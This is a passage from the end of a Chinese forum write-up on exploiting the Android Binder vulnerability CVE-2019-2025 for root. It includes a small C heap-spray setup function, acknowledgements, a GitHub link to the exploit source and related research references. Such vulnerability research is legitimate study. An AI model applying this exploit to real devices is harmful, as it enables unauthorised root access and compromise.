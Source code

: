从上图可以看到 async_transaction 正是 name_len 的值，所以这个我设置为 8，async_transaction 为 0，这也就是 abcd.txt(长度为 8) 的来源。

```
void init_fd_heap_spray()
{
    const char * path = "/data/local/tmp/test_dir/abcd.txt";
        fd_heap_spray = open(path, O_WRONLY);
    if (fd_heap_spray < 0)
    {
        printf("[-] fd_heap_spray failed\n");
    }
}

```

  
五、老规矩上图

![](https://bbs.pediy.com/upload/attach/202001/93_K4XHDHZXFFHSW7A.jpg)  

六、致谢

感谢 @牛 maomao，关于漏洞利用细节给了很多建设性的意见，也让我深刻感到自己和大牛之间的差距。

七、源码地址：https://github.com/jltxgcy/CVE_2019_2025_EXP

### 参考

[1] https://conference.hitb.org/hitbsecconf2019ams/materials/D2T2%20-%20Binder%20-%20The%20Bridge%20to%20Root%20-%20Hongli%20Han%20&%20Mingjian%20Zhou.pdf  
[2] http://blogs.360.cn/post/Binder_Kernel_Vul_CH.html  
[3][原创](Android Root)CVE-2017-7533 漏洞分析和复现 https://bbs.pediy.com/thread-248481.htm  
[4][分享] KSMA -- Android 通用 Root 技术 https://bbs.pediy.com/thread-248444.htm

[[招聘] 欢迎你加入看雪团队！](https://job.kanxue.com/company-read-31.htm)

最后于 2020-1-31 20:36 被 kanxue 编辑 ，原因：